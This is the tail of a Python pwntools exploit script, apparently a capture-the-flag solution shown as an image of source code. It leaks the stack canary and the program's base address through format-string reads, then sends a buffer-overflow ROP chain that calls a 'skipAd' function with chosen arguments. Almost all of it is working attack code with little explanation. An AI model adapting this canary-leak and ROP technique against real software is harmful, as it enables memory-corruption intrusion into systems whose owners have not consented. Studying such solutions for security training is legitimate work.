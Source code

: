 ```python
    # leak canary to bypass Stack Smash Protection
    io.sendline(b"4")
    io.sendline(b"%71$p")
    io.sendline(b"3")
    io.recvuntil(b"First!!! :D\n")
    leak_canary = io.recvlineS()
    leak_canary = int(leak_canary, 16)
    log.success(f"{hex(leak_canary)=}")

    # leak main address to bypass PIE
    io.sendline(b"4")
    io.sendline(b"%55$p")
    io.sendline(b"3")
    io.recvuntil(b"First!!! :D\n")
    io.recvline()
    leak_main = io.recvlineS()
    leak_main = int(leak_main, 16)
    log.success(f"{hex(leak_main)=}")

    elf.address = leak_main - elf.sym["main"]

    io.sendline(b"777")

    io.sendline(b"5")
    io.sendline(b"2")

    rop = ROP(elf)
    rsi_rdi_ret = rop.find_gadget(["pop rsi", "pop rdi", "ret"]).address

    # bof
    payload = flat(
        b"A" * 504,
        leak_canary,
        b"B" * 8,
        rop.ret.address,
        rsi_rdi_ret,
        0xFEEDFACE,
        0xDEADBEEF,
        rop.ret.address,
        elf.sym["skipAd"],
    )
    io.sendlineafter(b"Insert your name:", payload)
    io.sendlineafter(b"Insert your card number:", b"B")

    io.interactive("")


if __name__ == "__main__":
    main()
```
